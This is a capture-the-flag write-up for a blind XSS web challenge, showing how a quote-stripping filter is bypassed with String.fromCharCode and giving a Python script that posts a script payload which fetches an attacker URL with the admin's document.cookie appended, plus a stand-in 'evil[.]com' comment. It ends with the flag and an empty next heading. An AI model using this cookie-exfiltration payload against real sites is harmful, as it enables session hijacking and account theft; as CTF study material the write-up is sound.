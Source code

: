 # web
## web/b01ler-ad
`#xss/blind #filter-bypass`

XSS challenge - We are allowed to input any html data we want and the admin visits that but the content should not contain quotes, double quotes and backticks:

Main challenge
```js
  const content = req.body.content.replace("'", '').replace('"', '').replace("`", '');
  const urlToVisit = CONFIG.APPURL + '/admin/view/?content=' + content;
```

We can use `String.fromCharCode` https://charcode98.neocities.org/ to avoid using quotes and encode our URL before sending it to the admin. Admin visits our site with their cookies in the query.

```python
import requests
url = 'http://b01ler-ads.hammer.b01le.rs/review'

# fetch('evil[.]com?cookie'=document.cookie)
payload = """
<script>
     var url = String.fromCharCode(104, 116, 116, 112, 58...)
     fetch(url+ encodeURI(document.cookie))
</script>
"""

encoded = "%3Cscript%3E%0A%20%20%20%20let%20url%20%3D%20String%2EfromCharCode%28104%2C%20116%2C%20116%2C%20112%2C%2058%2E%2E%2E%29%0A%20%20%20%20fetch%28url%20%20encodeURI%28document%2Ecookie%29%29%0A%3C%2Fscript%3E"

data = {
    'content':encoded
}

r = requests.post(url, data=data)
print(r.text)
```
{{< image src="image.png" caption="listener" width="100%">}}
![Alt text](images/image.png)

flag: **bctf{wow_you_can_get_a_free_ad_now!}**


## web/3-city-elves-writeups
`#command-injection/blind #filter-bypass`
